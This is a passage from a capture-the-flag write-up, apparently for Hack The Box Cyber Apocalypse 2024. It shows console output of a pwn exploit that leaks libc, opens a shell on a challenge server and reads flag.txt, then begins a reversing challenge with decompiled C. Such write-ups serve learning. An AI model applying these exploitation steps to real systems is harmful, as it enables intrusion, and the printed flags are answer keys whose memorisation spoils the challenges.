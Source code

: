 ```console
$ python solve.py
[+] Opening connection to 94.237.58.148 on port 38866: Done
[*] Leak : 0x7f26788f8ce0
[+] libc base : 0x7f26786de000
[*] Switching to interactive mode
$ id
uid=100(ctf) gid=101(ctf) groups=101(ctf)
$ whoami
ctf
$ ls
deathnote
flag.txt
glibc
$ cat flag.txt
HTB{0m43_w4_m0u_5h1nd31ru~uWu}
```

### Flag

`HTB{0m43_w4_m0u_5h1nd31ru~uWu}`

## rev/Crushing

> Attachment: [rev_crushing.zip](https://github.com/hackthebox/cyber-apocalypse-2024/blob/main/reversing/%5BEasy%5D%20Crushing/release/rev_crushing.zip)

### Analysis

On reversing with ghidra we get the following source:

```c
undefined8 main(void)

{
  int char;
  long counter1;
  long *pointer_to_buffer;
  long buffer [256];
  long counter2;
  
  pointer_to_buffer = buffer;
  for (counter1 = 255; counter1 != 0; counter1 = counter1 + -1) {
    *pointer_to_buffer = 0;
    pointer_to_buffer = pointer_to_buffer + 1;
  }
  counter2 = 0;
  while( true ) {
    char = getchar();
    if (char == -1) break;
    add_char_to_map(buffer,(char)char,counter2);
    counter2 = counter2 + 1;
  }
  serialize_and_output(buffer);
  return 0;
}
```
